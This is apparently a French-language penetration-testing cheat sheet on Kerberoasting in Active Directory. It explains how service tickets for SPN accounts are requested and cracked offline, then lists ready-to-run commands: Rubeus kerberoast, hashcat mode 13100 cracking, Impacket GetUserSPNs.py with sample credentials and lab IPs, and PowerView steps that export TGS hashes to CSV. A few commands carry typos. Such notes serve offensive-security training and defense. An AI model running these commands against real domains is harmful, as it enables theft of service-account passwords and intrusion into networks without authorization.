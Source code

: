 Le Kerberoasting est une technique d’attaque sophistiquée post-exploitation qui cible les comptes de service au sein des environnements Active Directory en exploitant les vulnérabilités du protocole d’authentification Kerberos. Cette attaque basée sur l’identité permet aux acteurs malveillants d’obtenir les hachages de mots de passe des comptes Active Directory associés aux noms principaux de service (SPNs), qui peuvent ensuite être crackés hors ligne pour révéler les identifiants en texte clair.
Lorsqu'un utilisateur demande un ticket de service (TS) au KDC (centre de distribution de clés), il doit envoyer un TGT (ticket d'octroi de ticket) valide et le nom `sname`du service souhaité ( ). Si le TGT est valide et que le service existe, le KDC lui envoie le TS.
# Comment fonctionne le kerberoasting 
Une attaque Kerberoasting se déroule en plusieurs phases distinctes, commençant par un accès initial au réseau et se terminant par l’extraction des mots de passe. L’attaque débute lorsqu’un acteur malveillant obtient l’accès à n’importe quel compte d’utilisateur authentifié dans le domaine. À partir de ce point d’accès, l’attaquant identifie les comptes de service avec des SPN, qui deviennent les cibles principales de l’exploitation.
#### Séquence de l’attaque :

- **Accès initial** : Obtenir les identifiants pour un compte d’utilisateur dans le domaine
- **Reconnaissance** : Énumérer les comptes de service avec des SPN
- **Demande TGS** : Demander des tickets de service au contrôleur de domaine
- **Extraction du ticket** : Capturer les tickets TGS cryptés à l’aide d’outils comme Rubeus ou Mimikatz
- **Crackage hors ligne** : Tenter de cracker les mots de passe des comptes de service
## outils 
[GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) 
[Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

Kerberoasting avec Rubeus 

```
Rubeus.exe kerberoast
```

Maintenant, craquez ce hachage

```
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

Kerberosting avec Impacket 

Lister des comptes SPN 

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```


```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.3.141 -request
```

## Kerberoasting - Exécution de l'attaque

Selon votre position dans un réseau, cette attaque peut être réalisée de plusieurs manières :

- À partir d'un hôte Linux non joint à un domaine utilisant des informations d'identification d'utilisateur de domaine valides.
- À partir d'un hôte Linux joint à un domaine en tant que root après avoir récupéré le fichier keytab.
- À partir d’un hôte Windows joint à un domaine authentifié en tant qu’utilisateur de domaine.
- À partir d’un hôte Windows joint à un domaine avec un shell dans le contexte d’un compte de domaine.
- En tant que SYSTÈME sur un hôte Windows joint à un domaine.
- À partir d'un hôte Windows non joint à un domaine à l'aide [de runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.
Les SPN sont des identifiants uniques utilisés par Kerberos pour associer une instance de service à un compte de service dans le contexte duquel le service est exécuté.

### kerberosting avec PowerView 


```
import-Module .\powerView.ps1
Get-DomainUser* -spn | select samaccountname
```

À partir de là, nous pourrions cibler un utilisateur spécifique et récupérer le ticket TGS au format Hashcat.

```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

Exporter tous les tickets vers un fichier CSV

```
et-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```


https://www.tarlogic.com/blog/how-to-attack-kerberos/